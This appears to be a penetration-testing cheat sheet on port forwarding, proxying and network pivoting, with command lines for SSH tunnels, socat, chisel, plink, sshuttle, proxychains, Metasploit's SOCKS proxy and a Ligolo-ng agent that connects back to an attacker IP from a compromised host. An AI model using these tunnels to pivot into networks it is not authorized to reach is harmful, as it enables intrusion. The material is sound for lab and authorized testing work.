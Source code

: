 # Port Fowarding and Proxying

## Introduction

## Table of Content

- [Port Fowarding and Proxying](#port-fowarding-and-proxying)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [Port Fowarding](#port-fowarding)
    - [SSH Tunneling/Local Port Forwarding](#ssh-tunnelinglocal-port-forwarding)
    - [SSH Remote Port Forwarding](#ssh-remote-port-forwarding)
    - [Socat - Port Forward](#socat---port-forward)
    - [chisel  - Remote Port Forward](#chisel----remote-port-forward)
    - [Chisel - Local Port Forward](#chisel---local-port-forward)
    - [pklink - Remote Port Forward](#pklink---remote-port-forward)
  - [Proxying - Network Pivoting](#proxying---network-pivoting)
    - [sshuttle (Unix) - proxying](#sshuttle-unix---proxying)
    - [SSH + Proxychains](#ssh--proxychains)
    - [chisel  - Reverse Proxy](#chisel----reverse-proxy)
    - [chisel - Forward Proxy](#chisel---forward-proxy)
    - [metasploit - proxying](#metasploit---proxying)
  - [Tunneling](#tunneling)
    - [Ligolo](#ligolo)

## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```sh
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```sh
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward
```sh
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
kali
```sh
./chisel server -p <LISTEN_PORT> --reverse &
```
Host
```cmd
./chisel client <client_port>:<client_port> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward
Host  
```cmd
./chisel server -p <LISTEN_PORT>
```
kali  
```sh
./chisel client <client_port>:<client_port> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward
```cmd
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```sh
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```sh
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
kali 
```sh
./chisel server -p LISTEN_PORT --reverse &
```
Host  
```cmd
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  
Host  
```cmd
./chisel server -p <LISTEN_PORT> --socks5
```
kali  
```sh
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 
```sh
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

## Tunneling

### Ligolo

https://github.com/nicocha30/ligolo-ng
kali
```sh
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert -laddr 0.0.0.0:<port>
sudo ip route add <ip-range> dev ligolo
```
host - upload agent
```
agent.exe -connect <attacker IP here>:<port> -ignore-cert
```
kali
```
session
start
#test it
```
